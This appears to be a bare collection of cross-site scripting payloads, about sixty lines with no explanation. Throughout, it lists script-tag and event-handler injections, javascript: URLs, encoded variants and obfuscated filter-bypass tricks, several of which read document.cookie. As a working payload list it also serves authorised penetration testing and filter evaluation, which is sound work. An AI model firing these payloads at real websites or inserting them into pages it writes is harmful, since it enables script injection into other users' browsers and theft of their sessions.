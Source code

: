 '\u003e\'</b><script>alert(document.cookie)</script><b><svg onload=alert(1)>
"><IMG SRC=x ONERROR=prompt(document.domain);>
6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/
"><svg/onload=confirm(1)>"@x.y
#<script>alert(1)</script>
1%22onfocus=%27window.alert%28document.cookie%29%27%20autofocus=
"><form onformdata%3Dwindow.confirm(cookie)><button>XSS here<svg%20onload=alert%28document.domain%29>
<svg%20onload=alert%28document.domain%29>
<script ~~~>alert(0%0)</script ~~~>
"ontouchend%3Dprompt%281%29+class%3Dd3rk+
"><svg onScroll="javascript:alert(1)//
"<Svg OnLoad=confirm?.(/d3rk😈/)<Svg+OnLoad=confirm?.(/d3rk😈/)<!--
%22%3C!--%3E%3CSvg%20OnLoad=confirm?.(/d3rk%F0%9F%98%88/)%3C!--1%22%29%22%3C%21--%3E%3CSvg+OnLoad%3Dconfirm%3f%2e%28%2fd3rk%F0%9F%98%88%2f%29%3C%21--
url=%26%2302java%26%23115cript:alert(document.domain)
%26%2302java%26%23115cript:alert(document.domain)
">>>>>><marquee>RXSS</marquee></head><abc%3E</script><script>alert(document.cookie)</script><meta
“><iMg SrC=x onError​=prompt()>
"><​script>prompt()<​/script>
<Svg On Only=1 Onload=alert("hex")>
"><script>alert(document.cookie)</script>
<<​script>script>prompt()<​/script>
<svg/onload​=prompt()>
<Svg On Only=1 Onload=alert(1)>
<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=&#x0000000000061;lert&#x000000028;origin&#x000029;>
<IFRAME SRC="javascript:alert(document.cookie);"></IFRAME>
<!</textarea <body onload='alert(1)'>
<INPUT+TYPE="IMAGE"+SRC="javascript:alert(1);">
themecolor=%22-alert('XSS')-%22
<STYLE>li+{list-style-image:url("javascript:alert(1)");}</STYLE><UL><LI>"><a>a</a><img src=x onerror=alert(document.cookie)>{{9-9}}';alert(0);://
#'%26%26'javascript:alert%25281%2529//
</a onmousemove="alert(1)">
<svg onload=alert (1337)&nvgt;
<img/src/onerror="(function(x){this[x+`ert`](1)})`al`">
<img/src/onerror="window[`al+/e/[`ex + `ec`]`e`+`rt`](2)">
<img/src/onerror="this.ownerDocument.defaultView['\u0061lert'](4)">
<iframe src-doc="<svg onload=alert (1337)&nvgt;"></iframe>
&#60;body onload=alert('ibrahimxss')&#62;&#34;&#34;
onpointerover=”alert(‘XSS’)
jAvaScripT:(alert)`1`
javascript:alert('1')
"onpointerover=”alert(‘XSS’)
10</option></select><img/src=xon=()onx+honerror=alert(1)>ss<svg/onload=prompt(document.domain)%20>
<img/src=xon=()onx+honerror=alert(1)>ss<svg/onload=prompt(document.domain)%20>
onclick=”alert(‘XSS’)
onmouseover=”alert(‘XSS’)
onload=”alert(‘XSS’)
onerror=”alert(‘XSS’)
onfocus=”alert(‘XSS’)
onblur=”alert(‘XSS’)
onchange=”alert(‘XSS’)
oninput=”alert(‘XSS’)
onsubmit=”alert(‘XSS’)
onkeydown=”alert(‘XSS’)
onkeydown=”alert(‘XSS’)
onpointerover=”alert(‘XSS’)